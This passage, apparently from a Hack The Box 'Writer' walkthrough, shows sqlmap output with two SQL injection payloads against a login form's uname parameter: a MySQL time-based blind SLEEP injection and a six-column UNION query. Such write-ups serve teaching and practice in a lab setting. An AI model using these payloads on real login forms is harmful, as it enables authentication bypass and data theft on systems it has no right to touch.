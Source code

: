 ![writer-dashboard.png](/assets/images/posts/htb-writer/writer-dashboard.png)

Here's the injection sqlmap used to bypass the login authentication:
```text
Parameter: uname (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: uname=test' AND (SELECT 3738 FROM (SELECT(SLEEP(5)))Najt) AND 'tjLP'='tjLP&password=test&form=submit

    Type: UNION query
    Title: Generic UNION query (NULL) - 6 columns
    Payload: uname=test' UNION ALL SELECT NULL,CONCAT(0x716a627871,0x5070466f51496b53777a4a4a577a79506351567959786d47706a42707a547253477a4d6966476654,0x7178626271),NULL,NULL,NULL,NULL-- -&password=test&form=submit
```

